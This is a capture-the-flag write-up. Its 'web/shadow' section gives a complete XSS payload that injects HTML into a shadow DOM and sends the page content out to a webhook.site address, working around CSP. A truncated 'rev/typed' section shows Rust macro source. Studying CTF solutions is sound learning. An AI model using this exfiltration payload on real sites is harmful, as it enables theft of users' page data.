 
### web/shadow

full solution:
```
https://shadow.mc.ax/?x=%3Cimg%20src%3D%22x%22%20onerror%3D%22find(%27steal%27)%3Bdocument.execCommand(%27insertHTML%27%2C%20false%2C%20%60%3Csvg%20onload%3D%26%2334%3Bwindow.location%3D%27https%3A%2F%2Fwebhook.site%2Fa602d76c-28a3-4e0a-8793-b183bc9bfba4%3Fa%3D%27%2BencodeURIComponent(this.parentNode.innerHTML)%26%2334%3B%3E%60)%3B%22%3E&y=-webkit-user-modify:%20read-write;
```

css payload:
```css
-webkit-user-modify: read-write;
```


js payload:
```js
find('steal');
document.execCommand('insertHTML', false, `<svg onload="window.location='https://webhook.site/a602d76c-28a3-4e0a-8793-b183bc9bfba4?a='+encodeURIComponent(this.parentNode.innerHTML)">`);
```


Use the obscure `-webkit-user-modify` property to make the div inside the shadowDOM editable then `document.execCommand("insertHTML","payload")` to write HTML inside it and get code execution inside the shadowDOM context.

We can easily exfiltrate despite the CSP by setting `window.location`

### rev/typed
Here's the original version of the code before macro expansion (and with the flag added in):
```rust=
#![recursion_limit = "10000"]
// #![allow(dead_code, unused_macros)]

use std::marker::PhantomData;

macro_rules! mktype {
    ($name: ident) => {
        struct $name;
    };

    ($name: ident<$($t: ident),*>) => {
        struct $name<$($t),*>($(PhantomData<$t>),*);
    }
}

macro_rules! mktrait {
    ($name: ident) => {
        trait $name {
            type Output;
        }
    };
    ($name: ident<$($arg: ident),*>) => {
        trait $name<$($arg),*> {
            type Output;
        }
    }
}

macro_rules! mkimpl {
    ($name: ident<$($gen: ident),*>[$($cgen: ty : $cons: path),*]($firstarg: ty $(, $arg: ty)*) = $output: ty) => {
        impl<$($gen),*> $name<$($arg),*> for $firstarg
        where
            $($cgen: $cons),*
```